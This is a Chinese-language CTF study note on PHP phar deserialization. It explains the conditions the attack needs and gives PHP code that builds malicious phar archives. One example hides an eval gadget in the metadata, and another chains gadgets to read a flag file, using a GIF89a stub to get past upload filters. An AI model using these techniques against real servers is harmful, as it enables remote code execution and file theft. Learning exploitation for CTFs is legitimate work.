 
## **phar序列化**
phar序列化学习
<https://www.cnblogs.com/CoLo/p/16786627.html>

phar之所以能反序列化，是因为Phar文件会以序列化的形式存储用户自定义的`meta-data`,PHP使用`phar_parse_metadata`在解析meta数据时，会调用`php_var_unserialize`进行反序列化操作。


利用条件
```
ctf题中php.ini中的phar.readonly选项，需要为Off（默认是on）

1、phar文件可被上传至服务器，上传后可被phar://协议读取
//即要求存在file_get_contents、fopen、highlight_file这种函数
include、require、include_once、require_once、highlight_file 、
show_source 、readfile 、file_get_contents 、fopen 、file

phar文件可以改名为任意后缀，只要能被伪协议读取即可。

2、要有可利用的魔术方法
//这个的话用一位大师傅的话说就是利用魔术方法作为"跳板"

3、文件操作函数的参数可控，且:、/、phar等特殊字符没有被过滤
//一般利用姿势是上传Phar文件后通过伪协议Phar来实现反序列化，伪协议Phar格式是`Phar://`这种，如果这几个特殊字符被过滤就无法实现反序列化
```
![](.topwrite/assets/image_1728379138816.png)

## **案例**
一般ctf中审计出代码中的可利用类，比如这里的test类有魔术方法。
生成phar文件，访问生成phartest.phar。
```
<?php 
class test{
    public $name="qwq";
    function __destruct()
    {
         eval($this->name);
    }
}
$a = new test();
$a->name="phpinfo();";
$phartest=new phar('phartest.phar',0);//生成时后缀名必须为phar，生成后可以改
$phartest->startBuffering();//开始缓冲 Phar 写操作
$phartest->setMetadata($a);//自定义的meta-data存入manifest
$phartest->setStub("<?php __HALT_COMPILER();?>");//设置stub，stub是一个简单的php文件。PHP通过stub识别一个文件为PHAR文件，可以利用这点绕过文件上传检测
$phartest->addFromString("test.txt","test");//添加要压缩的文件
$phartest->stopBuffering();//停止缓冲对 Phar 归档的写入请求，并将更改保存到磁盘
?>
```
将phartest.phar文件上传目标服务器。
再使用phar://伪协议去触发，实现反序列化后通过利用类代码执行。
```
<?php
class test{
    public $name="";
    public function __destruct()
    {
        eval($this->name);
    }
}
$phardemo = file_get_contents('phar://phartest.phar/test.txt');
echo $phardemo;
```


^
## **案例2**


```

<?php
class C1e4r
{
    public $test;
    public $str;
    public function __construct($name)
    {
        $this->str = $name;
    }
}

class Show
{
    public $source;
    public $str;
    public function __construct($name)
    {
        $this->str['str'] = $name;
    }
}

class Test
{
    public $params;
    public function __construct()
    {
        $this->params['source'] = '/var/www/html/f1ag.php';		// 一定要是绝对路径
    }
}

$c = new Test;
$b = new Show($c);
$a = new C1e4r($b);
echo base64_encode(serialize($a)); //test

$phar = new Phar("phar.phar");
$phar->startBuffering();
//$phar->setStub("__HALT_COMPILER(); ?>");
$phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>");  //设置stub，增加gif文件头
$phar->setMetadata($a);
$phar->addFromString("test.txt", "test");
$phar->stopBuffering();
```
生成phar.phar文件后，可改后缀为phar.jpg上传服务器，再伪协议phar://upload/phar.jpg即可触发。
如果是触发读文件需要有回显，如echo





